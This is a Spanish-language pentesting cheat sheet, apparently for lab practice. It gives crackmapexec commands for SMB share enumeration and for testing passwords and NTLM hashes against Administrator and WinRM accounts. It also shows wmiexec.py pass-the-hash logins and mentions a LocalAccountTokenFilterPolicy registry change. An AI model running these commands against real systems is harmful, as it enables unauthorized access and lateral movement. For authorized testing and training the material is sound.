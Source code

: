 Para enumerar el puerto 445 basico

![image](https://github.com/gecr07/Acordeon/assets/63270579/932937ba-7211-4c25-bcf9-ef5c3217e212)


```
crackmapexec smb 127.0.0.1
```

Para probar si la contrasea es valida pone un +

```
crackmapexec smb 127.0.0.1 -u 's4vitar' -p 'password123.'
```

![image](https://github.com/gecr07/Acordeon/assets/63270579/6c38263e-4908-4ba3-98e7-8a93c26eef81)

Para enumerar los shares

```
crackmapexec smb 127.0.0.1 -u 's4vitar' -p 'password123.' --shares
```

Para probar el hash de un usuario ( y mas si creeomos que es el Administrator)

```
crackmapexec smb 10.129.185.202 -u 'Adminsitrator' -H e0fb1fb85756c24235ff238cbe81fe00
```

![image](https://github.com/gecr07/Acordeon/assets/63270579/62a75e78-4ef2-4778-997d-ce92b69333de)

### WinRm

Se puede probar si las credenciales funcionan para WinRM puerto ***5985 y 5986***

```bash
 crackmapexec winrm 10.10.11.108 -u svc-printer -p '1edFg43012!!'

```


## Pass the hash

Si conseguimos el hash del administrador y el puerto 445 (al parecer esta abierto se puede hacer esto..

```
wmiexec.py -hashes :601c36b2ecfa2407ceab19fe6b366c7f Administrator@10.10.10.11
#Cuandono estas en nungun dominio
wmiexec.py WORKGROUP/Administrator@10.10.14.19 -hashes :d3c87620c26302e9f04a756e3301e63a
```

## Ruta para permitir la administracion remota

En términos prácticos, este comando está modificando el Registro de Windows para ajustar la configuración LocalAccountTokenFilterPolicy en la clave System. El valor 1 generalmente se utiliza para permitir la administración remota del sistema. Sin embargo, ten en cuenta que realizar cambios en el Registro puede afectar el funcionamiento del sistema, y siempre se debe tener precaución al modificar configuraciones del Registro. YA CON ESTO el crackmapexec poner el POWNED.
